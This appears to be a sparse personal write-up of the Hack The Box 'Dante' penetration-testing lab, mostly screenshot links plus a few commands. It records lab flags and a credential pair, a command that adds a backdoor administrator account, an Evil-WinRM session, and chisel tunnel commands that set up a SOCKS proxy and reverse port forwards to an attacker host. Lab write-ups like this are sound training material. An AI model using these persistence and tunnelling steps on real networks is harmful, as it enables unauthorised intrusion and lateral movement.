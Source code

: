 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
`FoundCREDs`

### Flag
- `DANTE{Im_too_hot_Im_K3rb3r045TinG!}`
- `DANTE{DC_or_Marvel?}`
## External
### Enumeration
![](https://i.imgur.com/umtLnFK.png)

![](https://i.imgur.com/2qIyMQr.png)
![](https://i.imgur.com/rXXRyNC.png)
![](https://i.imgur.com/qo6KBcm.png)
` jbercov : myspace7 `
### Gaining Access
![](https://i.imgur.com/1253eC4.png)
## Internal
### Enumeration
![](https://i.imgur.com/MSNj3ws.png)
![](https://i.imgur.com/QE3WfKB.png)
### Gaining Access
![](https://i.imgur.com/6BPBhPp.png)
![](https://i.imgur.com/BZj9NCV.png)
`net user Admin_129834765 SamsungOctober102030 /add`
[[Dante - NIX07]]
```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat Note.txt
You were supposed to find this subnet via enumerating the browser history files on DC01.

172.16.1.10 can also pivot to this box, it may be a bit more stable than DC01.
```
### Maintaining Access
![](https://i.imgur.com/HipxaEl.png)
`client -v 10.10.14.8:1234 socks`
- I couldnt access the ip `101` directly so i used msf and tried to get the ports.
- ![Uploading file...c8ngs]()

- We got port 80 is open and from the Browser hsitory port 8000 is open
```
client 10.10.14.8:8008 R:22:127.0.0.1:22 R:8000:localhost:8000
```
# Random Notes